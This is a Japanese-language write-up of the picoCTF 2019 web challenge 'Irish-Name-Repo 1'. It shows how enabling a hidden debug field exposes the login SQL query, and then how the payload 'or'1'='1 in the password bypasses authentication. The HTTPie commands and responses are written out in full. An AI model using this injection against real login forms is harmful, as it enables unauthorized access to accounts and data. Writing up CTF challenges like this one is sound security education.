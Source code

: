 ```yaml
---
title: "picoCTF 2019 web 300 Irish-Name-Repo 1 write-up"
description: "picoCTF 2019 web 300 Irish-Name-Repo 1 write-up"
authors: [hi120ki]
tags: [CTF, Web, Web Security]
slug: posts/20191225
---
```


## Solution

問題ページが与えられる

[https://2019shell1.picoctf.com/problem/12273/](https://2019shell1.picoctf.com/problem/12273/)

左上のハンバーガーメニューから「Admin Login」ページへ飛ぶ

<!-- truncate -->

[https://2019shell1.picoctf.com/problem/12273/login.html](https://2019shell1.picoctf.com/problem/12273/login.html)

ソースを見ると

```html
<form action="login.php" method="POST">
  <fieldset>
    <div class="form-group">
      <label for="username">Username:</label>
      <input type="text" id="username" name="username" class="form-control" />
    </div>
    <div class="form-group">
      <label for="password">Password:</label>
      <div class="controls">
        <input
          type="password"
          id="password"
          name="password"
          class="form-control"
        />
      </div>
    </div>
    <input type="hidden" name="debug" value="0" />

    <div class="form-actions">
      <input type="submit" value="Login" class="btn btn-primary" />
    </div>
  </fieldset>
</form>
```

username, password, debug が login.php へ POST されている。

debug を 1 にしてパスワードを送ってみる

```
http -f https://2019shell1.picoctf.com/problem/12273/login.php username=a password=b debug=1
```

```html
<pre>
username: a
password: b
SQL query: SELECT * FROM users WHERE name='a' AND password='b'
</pre>
<h1>Login failed.</h1>
```

この SQL 文だと「'or'1'='1」で true になる

```
http -f https://2019shell1.picoctf.com/problem/12273/login.php username=a password="'or'1'='1" debug=1
```

```html
<pre>
username: a
password: 'or'1'='1
SQL query: SELECT * FROM users WHERE name='a' AND password=''or'1'='1'
</pre>
<h1>Logged in!</h1>
<p>Your flag is: picoCTF{XXXXXXXXXXXXXXXXXXXXXX}</p>
```
